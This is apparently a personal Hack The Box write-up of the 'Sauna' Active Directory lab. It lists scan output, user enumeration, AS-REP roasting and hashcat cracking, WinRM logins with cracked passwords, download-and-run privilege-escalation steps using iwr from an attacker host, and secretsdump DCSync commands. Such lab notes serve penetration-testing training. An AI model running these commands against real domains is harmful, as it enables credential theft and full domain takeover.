# Summary


## about target

tip:  10.129.95.210

hostname:  Sauna

Difficulty:  Easy


## about attack

+ domain user enum, generate the user list with name on web.
+ Generic all, to Dcsync  exploit.


**attack note**

```bash
Sauna / 10.129.105.178

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap?
| fingerprint-strings:
|   LDAPSearchReq:
|     domainFunctionality1
|     forestFunctionality1
|     domainControllerFunctionality1
|     rootDomainNamingContext1
|     DC=EGOTISTICAL-BANK,DC=LOCAL0
|     ldapServiceName1
|     4EGOTISTICAL-BANK.LOCAL:sauna$@EGOTISTICAL-BANK.LOCAL0
|     isGlobalCatalogReady1
|     TRUE0
|     supportedSASLMechanisms1
|     GSSAPI
|     GSS-SPNEGO
|     EXTERNAL
|     DIGEST-MD50
|     supportedLDAPVersion1
|     supportedLDAPPolicies1
|     MaxPoolThreads
|     MaxPercentDirSyncRequests
|     MaxDatagramRecv
|     MaxReceiveBuffer
|     InitRecvTimeout
|     MaxConnections
|     MaxConnIdleTime
|     MaxPageSize
|     MaxBatchReturnMessages
|     MaxQueryDuration
|     MaxDirSyncDuration
|     MaxTempTableSize
|     MaxResultSetSize
|     MinResultSets
|     MaxResultSetsPerConn
|     MaxNotificationPerConn
|     MaxValRange
|     MaxValRangeTransitive
|     ThreadMemoryLimit
|     SystemMemoryLimitPercent0
|_    supportedControl1
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49719/tcp open  unknown


---- interesting
Domain Name: EGOTISTICALBANK
Domain Sid: S-1-5-21-2966785786-3096785034-1186376766

Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) 

domain from dns:  sauna.egotistical-bank.local

users from http page, team

fsmith:Thestrokes23
svc_loanmanager:Moneymakestheworldgoround!

---- enum

crackmapexec smb $tip -u '' --pass-pol

enum4linux -a $tip | tee enum4linux.log

dig ANY @$tip EGOTISTICAL-BANK.LOCAL

ldapsearch -H ldap://$tip:389 -x -b "DC=EGOTISTICAL-BANK,DC=LOCAL" '(Objectclass=user)' samaccountname | grep -i samaccountname

# found user hugo smith
ldapsearch -H ldap://$tip:389 -x -b "DC=EGOTISTICAL-BANK,DC=LOCAL" > ldap-anonymous.log

# user enum
kerbrute userenum -d egotistical-bank.local  --dc egotistical-bank.local
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc egotistical-bank.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt


---- exploit

GetNPUsers.py -usersfile domainuser.list  -no-pass -dc-ip $tip egotistical-bank.local/ -format hashcat -outputfile asreproast.hash

hashcat -m 18200 asreproast.hash /usr/share/wordlists/rockyou.txt

crackmapexec winrm $tip -u fsmith -p 'Thestrokes23'

evil-winrm -u fsmith -p Thestrokes23 -i $tip

---- privesc

iwr -uri http://10.10.14.47/wpeas.exe -outfile wpeas.exe

.\wpeas.exe log=wp.log

iwr -uri http://10.10.14.47/sh.exe -outfile sh.exe

.\sh.exe --CollectionMethods All

crackmapexec winrm $tip -u svc_loanmgr -p 'Moneymakestheworldgoround!'
crackmapexec smb $tip -u svc_loanmgr -p 'Moneymakestheworldgoround!' --shares

secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'

secretsdump.py -just-dc egotistical-bank.local/fsmith:Thestrokes23@$tip
secretsdump.py -just-dc egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@$tip


```


# Enum

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```


## dns enum

```bash
 dig ANY @$tip EGOTISTICAL-BANK.LOCAL
```





## http enum


User from http page, http://10.129.105.178/about.html

```bash
Fergus smith
shaun coins
hugo bear
bowie taylor
sophie driver
steven kerb
```





## ldap enum





## kerberos 


enum user. 




# Exploit











# Privesc


## Local enum


```bash
   DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
   DefaultPassword               :  Moneymakestheworldgoround!
```














## system


```bash
```


## proof

```bash


```


